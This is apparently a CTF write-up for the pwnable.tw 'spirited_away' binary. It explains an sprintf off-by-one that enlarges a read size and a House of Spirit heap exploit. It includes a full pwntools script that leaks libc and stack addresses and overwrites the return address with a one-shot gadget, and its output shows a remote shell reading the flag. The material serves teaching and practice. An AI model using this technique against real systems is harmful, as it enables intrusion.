



spirited_away: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, not stripped


gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial


## Intro
The program reads in user comments for the movie, "Spirited Away", and allows to user to repeatedly add new comments.
The pseudocode for the `survey()` function which does all the processing looks like the following.


int survey()
{
  char printCommentNo; // [sp+10h] [bp-E8h]@2
  size_t hex3c; // [sp+48h] [bp-B0h]@1
  size_t hex50; // [sp+4Ch] [bp-ACh]@1
  char comment; // [sp+50h] [bp-A8h]@2
  int age; // [sp+A0h] [bp-58h]@2
  void *name; // [sp+A4h] [bp-54h]@2
  int reason; // [sp+A8h] [bp-50h]@2

  hex3c = 60;
  hex50 = 80;
LABEL_2:
  memset(&comment, 0, 0x50u);
  name = malloc(0x3Cu);
  printf("\nPlease enter your name: ");
  fflush(stdout);
  read(0, name, hex3c);
  printf("Please enter your age: ");
  fflush(stdout);
  __isoc99_scanf("%d", &age);                   // mallocs space for buffer
  printf("Why did you came to see this movie? ");
  fflush(stdout);
  read(0, &reason, hex50);
  fflush(stdout);
  printf("Please enter your comment: ");
  fflush(stdout);
  read(0, &comment, hex3c);
  ++cnt;
  printf("Name: %s\n", name);
  printf("Age: %d\n", age);
  printf("Reason: %s\n", &reason);
  printf("Comment: %s\n\n", &comment);
  fflush(stdout);
  sprintf(&printCommentNo, "%d comment so far. We will review them as soon as we can", cnt);// overflow if cnt >=100
  puts(&printCommentNo);
  puts(&s);
  fflush(stdout);
  if ( cnt > 199 )
  {
    puts("200 comments is enough!");
    fflush(stdout);
    exit(0);
  }
  while ( 1 )
  {
    printf("Would you like to leave another comment? <y/n>: ");
    fflush(stdout);
    read(0, &choice, 3u);
    if ( choice == 'Y' || choice == 'y' )
    {
      free(name);
      goto LABEL_2;
    }
    if ( choice == 'N' || choice == 'n' )
      break;
    puts("Wrong choice.");
    fflush(stdout);
  }
  puts("Bye!");
  return fflush(stdo


Each time a user wants to a new comment, the program asks us to enter several other fields.


Thanks for watching Spirited Away!
Please leave some comments to help us improve our next movie!

Please enter your name: Josh
Please enter your age: 26
Why did you came to see this movie? AAAAA
Please enter your comment: BBBBB
Name: Josh

Age: 26
Reason: AAAAA
y?
Comment: BBBBB

1 comment so far. We will review them as soon as we can

Would you like to leave another comment? <y/n>: 


These fields are stored onto the stack like so:

The name is always placed in a heap chunk created via `malloc(0x3c)`.
A pointer to this heap chunk is placed on the stack.

As we add comments, a global variable keeping track of the number of comments is incremented.

Each time a new comment is added, the `namePtr` on the stack is `free()`'d and `malloc(0x3c)` is called to reallocate the heap chunk to store the name for the next comment.

## Vulnerability
After 10 comments are added, an extra byte is added to the `printCommentNo` buffer, since "10" in hex is actually `0x3130`.
This pushes the NULL byte at the end of the ***"%d comment so far. We will review them as soon as we can"*** string 1 byte farther up the stack. 

**This overwrites the `hex3c` variable that is used to perform `read()` calls, with `0x0`.**


read(0, name, hex3c);
[...]
read(0, &comment, hex3c);


**Even worse, after 100 comments are added, an extra 2 bytes will be added to the `printCommentNo` buffer which will overwrite the `hex3c` variable with `0x6e`, since that is the hex equivalent of the character "n" in the word "can".**

**This allows us to write more data onto both the stack and a heap chunk than we are supposed to.**

## Exploit 
To exploit this vulnerability, I used the "House of Spirit" heap exploitation technique to craft a fake fastchunk on the stack which I free'd into a fastbin. Then the next `malloc(0x3c)` allocation, which requested the same size of the fastchunk we just freed, returned this stack address back, and I then wrote data into this stack address to overwrite the saved EIP with the address of a `one_shot` gadget to spawn a shell. 

Overall, right before `malloc(0x3c)` returned my desired stack address, I set the stack up to look something like this.

First I leaked a libc and stack address off the stack using the `reason` buffer which was insecurely printed.

Then I wrote 100 comments to overwrite the `hex3c` variable on the stack with `0x6e`.

Next, I crafted a fake `0x40` byte sized chunk on the stack as well as a fake next chunk right after it, with a valid size.
The reason I made the size of the fake chunk `0x40` is because we want it to be returned on the next `malloc()` and we already know the next `malloc()` will be `malloc(0x3c)` which will look for a chunk in the same fastbin as the one a sized `0x40` byte chunk would be placed in.

**Also, there has to be a chunk `0x40` bytes after our fake chunk, and this fake next chunk has to have a valid size, otherwise the memory allocator will throw a "free(): invalid next size (fast)" error!** 


if (have_lock
        || ({ assert (locked == 0);
          mutex_lock(&av->mutex);
          locked = 1;
          chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
            || chunksize (chunk_at_offset (p, size)) >= av->system_mem;
          }))
      {
        errstr = "free(): invalid next size (fast)";
        goto errout;
      }


In gdb, our fake chunk and next fake chunk will look something like this:

gdb-peda$ x/20xg 0x7fffffffde60-0x10
0x7fffffffde50: 0x0000000000000000      0x0000000000000040 <--- size of fastbin-sized fake chunk must equal size of next malloc() request
0x7fffffffde60: 0x0000000000ff0000      0x0000ff0000000000 <--- free(0x7fffffffde60)
0x7fffffffde70: 0x0000000000000001      0x00000000004007ed
0x7fffffffde80: 0x0000000000000000      0x0000000000000000
0x7fffffffde90: 0x00000000004007a0      0x0000000000002240 <--- size of next chunk must be >0x10 bytes and <0x2100 bytes
0x7fffffffdea0: 0x00007fffffffdf90      0xc69c8f667f6a2a00 


Finally, after the next `malloc(0x3c)` I was able to write `0x6e` bytes onto the stack starting at address `0x7fffffffde60`, which was enough to overwrite the saved EIP with my `one_shot` gadget.

Putting everything together, the following was my final exploit script.

## Solution

#!/usr/bin/env python

from pwn import *
import sys

def addComment1(name,age,reason,comment,again=True,ten=False): 
    r.send(name)
    r.recvuntil(":")
    r.sendline(str(age))
    r.recvuntil("movie?")
    r.sendline(reason)
    r.recvuntil(":")
    r.send(comment)
    info = r.recvuntil("<y/n>:")
    if again:
        r.sendline("y")
    else:
        r.sendline("n")
    if ten == False:
        r.recvuntil(":")
    return info

def addComment2(age,reason,again=True):
    r.sendline(str(age))
    r.recvuntil("movie?")
    r.sendline(reason)
    info = r.recvuntil("<y/n>:")
    if again:
        r.sendline("y")
    else:
        r.sendline("n")
    return info

def exploit(r):
    '''
    After 100 comments, the static size variable used to determine the # of bytes to read into
    the malloc'd chunk for the name will be overflown w/ 0x6e
    '''
    r.recvuntil(":")
    for i in range(8):
        addComment1("A"*10,12,"B"*20,"C"*20)
    libc_leak = u32(addComment1("A"*10,12,"B"*19,"C"*20).split("B\n")[1][:4])
    libc_base = libc_leak-0x5f20a  #ld_preload offset
    #libc_base = libc_leak-0x5fd0a # non-ld_preload offset
    stack_leak = u32(addComment1("A"*10,12,"B"*0x4f,"C"*20, ten=True).split("B\n")[1][:4])
    SRA = stack_leak-0x1c
    
    one_shot = libc_base+0x5f065
    #one_shot = libc_base+0x3a819
    log.info("libc base found at: "+hex(libc_base))
    log.info("stack leak found at: "+hex(stack_leak))
    log.info("SRA found at: "+hex(SRA))
    log.info('"magic" gadget found at: '+hex(one_shot))
    
    for i in range(90):
        addComment2(12,"B"*20)
        
    '''
    House of Spirit
    1. craft fake chunk on stack in known location
    2. overwrite name chunk pointer on stack w/addr of fake chunk we've created so that 
       the next free() will place stack address in a fastbin
    '''
    fake_chunk  = p32(0x0)
    fake_chunk += p32(0x40)   # fake chunk size
    fake_chunk += "AAAA"*15
    fake_chunk += p32(0x2240) # fake next size 
    fake_chunk_addr = stack_leak-0x68
    log.info("fake chunk crafted at: "+hex(fake_chunk_addr-0x8)) 
    
    payload  = "C"*0x54
    payload += p32(fake_chunk_addr)
    
    addComment1("A"*10,12,fake_chunk,payload) 
    
    '''
    3. malloc(0x3c) is called again, and will now return addr of fake chunk on stack!
    4. write payload into this fake chunk to overwrite SRA on stack with one_shot gadget
    '''
    payload  = p32(0xb00bface)*19
    payload += p32(one_shot)
    addComment1(payload,"12","B"*20,"C"*20,again=False,ten=True)

    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/pwnable.tw/spirited_away/spirited_away'], env={"LD_PRELOAD":"./libc_32.so.6"})
        #r = process(['./spirited_away'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)



➜  spirited_away python solve.py chall.pwnable.tw 10204
[*] For remote: solve.py HOST PORT
[+] Opening connection to chall.pwnable.tw on port 10204: Done
[*] libc base found at: 0xf7540000
[*] stack leak found at: 0xff93adb8
[*] SRA found at: 0xff93ad9c
[*] "magic" gadget found at: 0xf759f065
[*] fake chunk crafted at: 0xff93ad48
[*] Switching to interactive mode
 Bye!
$ id
uid=1000(spirited_away) gid=1000(spirited_away) groups=1000(spirited_away)
$ cat /home/spirited_away/flag
FLAG{Wh4t_1s_y0ur_sp1r1t_1n_pWn}
$  

